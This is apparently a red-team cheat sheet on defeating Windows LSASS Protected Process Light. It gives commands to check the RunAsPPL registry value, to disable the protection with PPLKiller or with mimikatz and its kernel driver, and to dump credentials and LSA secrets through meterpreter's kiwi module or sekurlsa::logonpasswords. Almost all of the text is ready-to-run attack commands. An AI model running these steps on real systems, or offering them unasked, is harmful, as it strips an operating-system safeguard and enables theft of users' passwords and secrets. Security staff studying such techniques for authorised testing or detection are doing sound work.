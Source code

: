 ### Check if PPL is enabled
CMD: `reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL`

### Disable PPL using PPLKiller

- Make sure the session you are running with has SYSTEM privleges.
- We need to upload the driver to the path: `C:\Windows\System32\config\systemprofile\AppData\Local\Temp` - The Temp directory might no exist, just create it - `mkdir Temp`.
- Then we will disable PPL: `.\PPLKiller.exe /disablePPL <LSASS PID>`
- Now we can use meterpreter mimikatz module to dump the lsass process: `load kiwi` - `creds_all` - `lsa_dump_secrets`.

### Disable PPL using mimikatz
- Transfer both `mimikatz.exe` and `mimidrv.sys` to the same directory, e.g `C:\Windows\Tasks`.
- Run: `.\mimikatz.exe "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "sekurlsa::logonpasswords" "exit"`
- Restore: `.\mimikatz.exe "!processprotect /process:lsass.exe" "!-" "exit"`
